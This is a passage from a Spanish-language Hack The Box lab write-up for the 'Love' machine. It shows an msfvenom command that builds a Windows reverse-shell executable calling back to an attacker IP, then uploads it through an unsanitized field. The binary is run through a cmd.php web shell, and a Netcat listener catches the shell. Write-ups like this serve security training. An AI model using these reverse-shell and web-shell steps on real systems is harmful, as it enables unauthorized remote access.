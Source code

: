 <p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/e72ee644-4304-4e8d-846f-04c8d2e246bf">
</p>

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST='10.10.14.9' LPORT=443 -f exe -o reverse_shell.exe
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/dcb875de-6efd-4648-89d8-ce62af4b22c1">
</p>

<p align="justify">
  Procedemos a subir el payload creado en el campo que no se encuentra sanitizado.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/0d73241c-a5c3-4477-af5c-51e2f5948d35">
</p>

<p align="justify">
  Nos ubicamos en la ruta del servidor y encontramos que el binario se encuentra alojado.
</p>

```java
C:\xampp\htdocs\omrs\images
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/995473aa-073b-4ef6-977e-ced8c38af370">
</p>

```go
Ejecución del binario:
	https://love.htb/images/cmd.php?cmd=reverse_shell.exe
```
<p align="justify">
  Antes de ejecutar el binario, podemos configurar una escucha con Netcat y, además, complementarlo con RLWRAP para lograr una experiencia de shell interactiva más completa.
</p>

```go
rlwrap nc -nvlp 443
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/e35e1635-3ec2-497f-aa34-6c5a4f784de6">
</p>

<p align="justify">
  Ahora tenemos la capacidad de acceder al escritorio del usuario al que hemos obtenido acceso y obtener la primera contraseña.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/e528737e-cb9a-4cd3-8344-3bb12a4c4d0b">
</p>
